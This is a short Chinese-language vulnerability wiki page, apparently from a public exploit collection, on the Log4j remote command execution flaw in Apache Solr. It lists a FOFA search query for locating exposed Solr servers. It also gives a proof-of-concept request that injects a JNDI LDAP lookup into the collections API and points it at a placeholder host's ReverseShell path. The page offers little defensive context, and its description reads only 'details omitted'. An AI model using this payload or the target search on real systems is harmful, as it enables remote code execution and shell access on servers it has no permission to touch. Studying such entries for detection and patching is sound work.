 ```yaml
---
title: Apache Solr Log4j组件 远程命令执行漏洞
---
```

# Apache Solr Log4j组件 远程命令执行漏洞

## 漏洞描述

Apache Solr Log4j组件 远程命令执行漏洞，详情略

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1639122271639-51bacb0d-9e88-4234-87c2-cb374d1b98a3.png)

验证POC

```go
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![img](/assets/PeiQi-Wiki/img/1639122349239-d4352e9a-59b4-4562-afff-6a529d398d0e.png)

